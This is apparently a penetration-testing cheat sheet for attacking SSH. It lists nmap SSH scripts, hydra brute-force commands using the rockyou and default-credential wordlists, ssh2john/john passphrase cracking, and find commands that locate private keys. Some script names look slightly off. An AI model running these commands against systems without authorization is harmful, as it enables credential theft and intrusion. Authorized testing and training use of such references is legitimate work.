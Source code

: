     # SSH Authentication Bypass Detection
    nmap -p 22 --script=ssh-auth-methods <target_ip>
    
    # SSH Brute Force Attack
    nmap -p 22 --script=ssh-brute --script-args userdb=/usr/share/seclists/Usernames/top-usernames-shortlist.txt,passdb=/usr/share/wordlists/rockyou.txt <target_ip>
    
    # Enumerate SSH Version
    nmap -p 22 --script=ssh3-enum-algos <target_ip>
    
    # Detect Weak SSH Encryption Algorithms
    nmap -p 22 --script=ssh3-enum-algos,sshv1 <target_ip>
    
    # SSH Public Key Authentication
    nmap -p 22 --script=ssh-publickey-acceptance --script-args ssh.user=<username>,ssh.privatekey=<path_to_private_key> <target_ip>
    

**Brute Force Common Credentials**

    hydra -l <user> -P /usr/share/wordlists/rockyou.txt <target_ip> -t 4 ssh
    
    hydra -L <user_list> -p <password> <target_ip> -t 4 ssh -s <port>
    
    hydra -f -V -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt -s 22 [IP] ssh
    

**User Obtained Private Key**

    chmod 600 [output_key_file]
    
    ssh [user]@[IP] -i [output_key_file]
    

**Convert PuTTY Key to OpenSSH Format**

    puttygen [putty_key_file] -O private-openssh -o [output_key_file]
    

**Crack SSH Private Keys**

    ssh2john <private_key_file> > <private_key_file>.hash
    
    john --wordlist=/usr/share/wordlists/rockyou.txt <private_key_file>.hash
    

**Finding Private Keys**

    find /etc/ssh -name "*.pub"
    
    find /home/<user>/.ssh -name "id_*"
    

**Possible Errors**
